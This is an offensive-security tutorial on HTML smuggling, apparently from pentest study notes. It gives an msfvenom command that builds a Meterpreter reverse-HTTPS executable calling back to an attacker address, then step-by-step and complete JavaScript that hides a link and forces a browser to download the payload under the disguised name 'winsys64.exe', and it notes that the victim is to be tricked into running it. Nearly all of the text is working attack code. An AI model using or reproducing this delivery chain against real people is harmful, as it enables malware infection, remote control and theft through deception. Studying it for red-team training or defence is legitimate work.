 # Using JavaScript

Overview of steps required to embed JavaScript within an HTML document that will trigger an automatic download of a first stage payload to a target system when the web page is visited by the victim. The file still has to be saved to disk by the user and then manually executed, which will require manipulating the user to performs these tasks via social engineering and/or pretexting.

### Steps

#### Step 1:

Generate a Meterpreter shellcode windows binary.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

Generate a base64 encoded string of the binary to help avoid invalid or bad characters.

```
base64 /var/www/html/msfstaged.exe
```

#### Step 2:

Write a base64 to byte array converter function in JavaScript to decode the shellcode into a byte array.

```javascript
function base64ToArrayBuffer(base64) { 
    var binary_string = window.atob(base64); 
    var len = binary_string.length; 
    var bytes = new Uint8Array( len ); 
    for (var i = 0; i < len; i++) { 
        bytes[i] = binary_string.charCodeAt(i); 
        } 
    return bytes.buffer; 
}
```

#### Step 3:

Create a variable to store the filename for the payload that will be saved on the target system.

```javascript
var fileName = 'winsys64.exe';
```

#### Step 4:

Store the base64 encoded payload in a variable. Remove any line breaks or new lines from the base64 encoded executable to embed it as one continuous string (alternatively, wrap each line in quotes).

```javascript
var file ='TvqQAAMAAAAEAAAA//8AAAA…’ <--base64 encoded binary
```

#### Step 5:

Convert the encoded shellcode into a bytearray and store in a new variable.

```javascript
var data = base64ToArrayBuffer(file);a
```

#### Step 6:

To use the HTML5 download attribute, create a blob object and instantiate it with the payload byte array.

```javascript
var blob = new Blob([data], {type: 'octet/stream'});
```

#### Step 7:

Create a URL file object using the blob object. This simulates a file located on the web server, but instead reads it from memory.

```javascript
var url = window.URL.createObjectURL(blob);
```

#### Step 8:

Create the new anchor object and append it to the HTML document. Set the display attribute to none to hide it from the output of the rendered page.

```javascript
var a = document.createElement('a'); 
document.body.appendChild(a); 
a.style = 'display: none';
```

#### Step 9:

Set the href tag to the URL file object created in step 7.

```javascript
a.href = url;
```

#### Step 10:

Set the download attribute by specifying the filename to store the payload in. Use the click() method to trigger the download onto the target machine.

```javascript
a.download = fileName; 
a.click();
```

Step 11:

Finally, let the browser know that you are finished with the URL object so it knows not to keep the reference to the file any longer.

```javascript
window.URL.revokeObjectURL(url);
```

### Full script (Chrome)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binary_string = window.atob(enc); 
    var len = binary_string.length; 
    var byteArray = new Uint8Array( len ); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binary_string.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
var urlRef = window.URL.createObjectURL(blobby);

var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
anc.href = urlRef;
anc.download = outName;
anc.click();
window.URL.revokeObjectURL(urlRef);
</script>
```








